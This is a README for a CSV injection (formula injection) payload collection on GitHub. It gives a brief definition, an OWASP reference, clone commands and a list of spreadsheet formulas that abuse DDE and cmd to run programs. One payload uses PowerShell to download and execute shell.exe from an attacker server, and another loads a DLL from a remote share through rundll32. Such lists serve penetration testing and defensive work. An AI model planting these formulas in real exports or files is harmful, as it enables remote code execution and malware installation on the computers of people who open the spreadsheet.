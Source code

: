 ## CSV Injection Payloads

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/csv-injection-payloads?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/csv-injection-payloads?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/csv-injection-payloads"> <img src="https://img.shields.io/github/license/payloadbox/csv-injection-payloads"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/csv-injection-payloads/1">

CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

#### Payloads :

```
=DDE("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

#### References :

###### CSV Injection :

* 👉 https://owasp.org/www-community/attacks/CSV_Injection

##### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
```

##### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
```

#### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
